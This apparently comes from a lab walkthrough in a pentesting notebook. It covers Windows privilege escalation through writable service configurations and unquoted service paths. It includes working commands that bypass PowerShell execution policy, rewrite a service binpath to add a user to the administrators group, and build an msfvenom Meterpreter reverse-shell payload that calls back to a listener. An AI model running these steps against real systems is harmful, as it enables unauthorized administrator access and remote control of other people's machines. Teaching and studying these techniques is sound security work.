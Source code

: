 # 🛀 Service Permissions (Paths)

### Definitions

* **Service Path**: When Windows starts up or runs certain programs, it often uses "services" to do so. Each service has a specific path that tells Windows where to find the program it needs to run.
* **Quoted vs. Unquoted**: If the service path is "quoted" (enclosed in quotation marks), it tells Windows exactly where to find the program, even if there are spaces in the path. For example: `"C:\Program Files\My Service\service.exe"`. If the service path is "unquoted" (not enclosed in quotation marks), Windows might get confused about where the program is located if there are spaces in the path. For example: `C:\Program Files\My Service\service.exe`.

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions but no errors, just positive finds.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

We can also see that we can restart the service, very important! We could add something malicious and then restart it to gain more privileges, for example.

Now we're goinf to run access check on the service itself to try and get more informations about what's happening

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>

So we're now in the Administrators group

### &#x20; Escalation via Unquoted Service Paths <a href="#lecture_heading" id="lecture_heading"></a>

<figure><img src="../../../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

An attacker can exploit an unquoted service path by creating a malicious program with a name that Windows might mistakenly run instead of the intended service. For example, if the path is unquoted, Windows might interpret `C:\Program Files\My Service\service.exe` as trying to run a program at `C:\Program.exe` or `C:\Program Files\My.exe` instead of the correct `service.exe`.

So after running PowerUp and starting the InvokeAllchecks command, we search for the unquoted path section:

<figure><img src="../../../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

So we can see the service _**Unquotedsvc**_ that has an unquoted service path with many spaces.

Now we are going to look at the service more in depth with the Registry Editor (regedit). It provides a tree structure that users can navigate to find specific keys and values. These keys and values are organized in a manner similar to folders and files on a hard drive.

It's good to know that the Windows Registry is a hierarchical database that stores low-level settings for the operating system and for applications that opt to use the registry.

The registry contains configuration settings for the operating system, hardware devices, user preferences, and installed software. Editing the registry can change how Windows or certain applications behave.

So let's look for unquotedsvc in the registry editor:

<figure><img src="../../../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

So what this means is, when the unquotedsvc service will start, it will load all those file from start to bottom

What could happen here would be that Windows can misinterpret the path and try to execute a different executable than the intended one. Here are the possible interpretations:

* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My Service\service.exe` (the intended executable)

So now we are going to craft our payload, send it to the target and execute it:

craft the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.54.172 LPORT=5454 -f exe -o common.exe
```

host and transfer the payload:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And of course we are going to save it in the unquoted service path:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after launching our netcat listener on the port we listed on our msfconsole payload, we're going to restart the unquotedsvc service and look what happens:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we got our shell!!
